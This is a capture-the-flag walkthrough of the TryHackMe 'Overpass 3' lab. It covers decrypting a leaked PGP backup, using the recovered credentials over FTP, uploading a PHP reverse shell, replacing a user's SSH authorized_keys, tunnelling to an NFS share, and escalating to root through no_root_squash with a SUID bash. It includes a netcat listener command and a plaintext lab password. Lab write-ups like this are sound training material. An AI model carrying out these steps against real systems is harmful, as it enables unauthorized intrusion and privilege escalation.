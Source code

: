 ```yaml
---
layout: default
title : Overpass 3 - Web Hosting - THM
---
```


![Screenshot_20220324_031714](https://user-images.githubusercontent.com/24994796/160209915-2f41711f-71af-4a91-9eae-60237a89aeef.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here we are working with couple of broke programmers who built a web hosting ......

Upon firing up the machine we get an ip machine

First thing for every good security operative in enumeration
so we run an nmap scan to know which ports/services are up and running

![Screenshot_20220326_003154](https://user-images.githubusercontent.com/24994796/160210613-a77cc466-9717-4ee1-bb5e-11ba76dfcfa2.png)
After the scan we notice 3 ports opened and a bunch of vulnerebilities 
- Port 21,22 and 80 
- FTP,SSH and HTTP respecfully
- also notice on line 27,28 we already ran an http-enum and found two directories 
- lets keep those in mind for next time
Let's head on to our browser, load the website 
![Screenshot_20220326_003036](https://user-images.githubusercontent.com/24994796/160211351-b5006e30-7eb5-4b49-a362-f174c3c8d1ac.png)
We see the index page doesn't really give us much but we can clearly see staffs and their roles
Nothing major there except from an about page and Downloads
So heading on to the /backups directory we got from our scan we notice see a backup zip file 
We download it, extract it and were greeted with two files a gpg and a private pgp key file
![Screenshot_20220326_001459](https://user-images.githubusercontent.com/24994796/160211822-12de9c93-f934-4b7e-9486-c78fed62d191.png)
I guess we'll be learning a bit about pgp and gpg xD 
# Proceed to both this links if you want to learn about how to import keys and change a pgp passphrase

https://makandracards.com/makandra-orga/37763-gpg-extract-private-key-and-import-on-different-machine
https://blog.chapagain.com.np/gpg-how-to-change-edit-private-key-passphrase/


First change direcetory to one the contains your backup extracted files 
make sure you have gpg installed on yyour machine 
then we get into it
In your terminal type this 
- sudo apt-get install gpg 
- gpg --list-keys 
notice nothing is returned
- gpg --list-secret-keys 
Now let's proceed to importing the keys 
- gpg --import private.key
- run the gpg --list-secret-keys 
Notice we finally get some keys

![Screenshot_20220326_004741](https://user-images.githubusercontent.com/24994796/160212412-a94c2a7a-c8ed-46e9-9847-06a1c7356563.png)

Now changing its passphase
- gpg --edit-key your-key-ID
Your Key will be in hexadecimals 
- gpg> passwd
You'll be asked to input your new password twice 
Let's just type overpass
- gpg> save
Save it

# Decrypting the gpg file
In order to decrypt an encrypted file on Linux, you have to use the “gpg” command with the “-d” option for “decrypt” and specify the “. gpg” file that you want to decrypt.
Again, you will be probably be prompted with a window (or directly in the terminal) for the passphrase.
- gpg -d CustomerDetails.xlsx.gpg 
- input your passphrase
Now head back to the foleder that contains the backup files, you'll notice a new file, open it

![Screenshot_20220326_011324](https://user-images.githubusercontent.com/24994796/160213471-14e62faf-ce34-4e36-8212-d6af23650147.png)

![Screenshot_20220326_011913](https://user-images.githubusercontent.com/24994796/160213859-44e83b4d-70ce-4198-983d-2a7b79a8ddd0.png)


We have login credentials where to use it ?
Remember in our scan we had FTP&SSH being open 
Upon trying the SSH with all login details we didn't have any successfull ssh login
Let's try the FTP
make sure you have ftp installed on your pc 
- sudo apt-get install ftp
- ftp "machine IP"
- it prompts us to give a user 
- and a password
Just have fun trying all the users and passwords 

After logging in, we run ls to list directories
we see the backups directory and some other things 
It seems that's web directory
lets upload our web rev shell (/usr/share/webshells/php/php-reverse-shell.php) or any php of your choice
change the ip and port to port of our preferance and IP to our attacker machine's

![Screenshot_20220324_152536](https://user-images.githubusercontent.com/24994796/160214017-3d0abbd9-e0c1-48de-9286-2286a46c8ead.png)

Set up your listner 
- rlwrap nc -lvnp PORT
Head to the website and chane the directory to IP/webshell name 

![Screenshot_20220324_153103](https://user-images.githubusercontent.com/24994796/160214407-451de196-ff68-48cd-b2e9-161638230135.png)

We should caught a shell 


So yes from ![Screenshot_20220324_152557(2)](https://user-images.githubusercontent.com/24994796/160214836-b0e9a821-ee1b-473b-a718-1b56a9230376.png)

That's our initial shell, 
make the shell a stable one (* that'll be your little task, use bash to stabilize the shell, but rlwrap is a pretty stable shell)
from THM hint the webflag is in the apache user path
- cat /etc/passwd
![Screenshot_20220324_220936](https://user-images.githubusercontent.com/24994796/160214960-fb08e394-53c0-4c01-bb7e-9a99f9b0be17.png)
- cd /usr/share/httpd (apache path)
- ls
- cat your web flag

we have a user paradox who we have his password so let's head to his path
- su paradox
- ShibesAreGreat123 (password)

so let's try getting the user flag now, Paradox lacks the right to

run linpeas.sh or you can go through a series of manual exploitation

pay attention to NFS 
we check /etc/exports 
and see that the user james has a share to his path and it has the root_no_squat option
on our pc try mounting this share 
- showmount -e "MACHINE IP"
- we noticed some sort of Firewall is blocking our share 
- so let's try ssh port forwarding nfs share trick

but before we do that let's get a user we can successfully ssh to

we noticed we couldn't ssh to paradox even tho we had his password 
lets try replacing his authorized_keys with ours 
- first get your ssh key open another terminal tab
- cd ~/.ssh 
- ls 
- cat id_rsa.pub
now we have that let's go back to our shell tab and change paradox authourized keys
![Screenshot_20220324_152701(2)](https://user-images.githubusercontent.com/24994796/160216007-e0214d80-1374-4124-a0db-38c6696efd65.png)

- after that head back to your tab 
- time for the port forwarding trick, the link below explains it quite well, you can head there later 
https://gist.github.com/proudlygeek/5721498 
We run the following
Setup ssh tunnel
- ssh -fNv -L 3049:localhost:2049 paradox@MACHINE-IP 
![Screenshot_20220324_152739](https://user-images.githubusercontent.com/24994796/160216153-57f72cd7-65f9-4a85-9447-21419fe73dbe.png)
Mount the share
- mount -t nfs -o port=3049 localhost:/ /tmp/nfs
![Screenshot_20220324_152808](https://user-images.githubusercontent.com/24994796/160216187-043eef85-12fd-4457-bef4-2f19c26820fb.png)

so yh cd to the folder me mounted it to /tmp/nfs
- ls -la 
lists all files and folders
notice there's a .ssh folder, cd to it and cat the id_rsa.pub file 
so just ssh with it since we don't know the login
- ssh -i id_rsa.pub james@MACHINE-IP
![Screenshot_20220324_152851](https://user-images.githubusercontent.com/24994796/160216662-34572d73-5dae-457d-882a-8585bd8504ec.png)

![Screenshot_20220324_152959](https://user-images.githubusercontent.com/24994796/160216688-8e90ffe7-a381-48f0-802d-28b6a96e6bcb.png)
WE'RE IN 😎
cat out the user flag 

Now time for the privilege escalation path
pay good attention to this, things get tricky here
actually we use hacktricks trick xD
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

Head back to our /tmp/nfs folder 
- cd /tmp/nfs
- cp /bin/bash . (note my personal experience was tht after a minute the Terminal was a hung there so i closed it and opend another and went back the /tmp/nfs folder again, listing files a bash file was there)
- chmod +s bash

Now head back to the james's ssh and the shared folder path

./bash -p 

gives drops us a root shell
![Screenshot_20220324_153023](https://user-images.githubusercontent.com/24994796/160217074-d1353f2d-cc78-473b-a756-6d065749cc9b.png)

and BOOM root access 🥸 🤯

so the last task of finding root flag is up to you
nah just kidding 
- cat /root/root.flag
and we should get our root flag

That's it for Overpass 3

Hit me up on Twitter (https://twitter.com/abdulmalik_ttg) if you run into any issues 
Greetings from [SonOfABot]



<br> <br>
[Back To Home](../index.md)
<br>









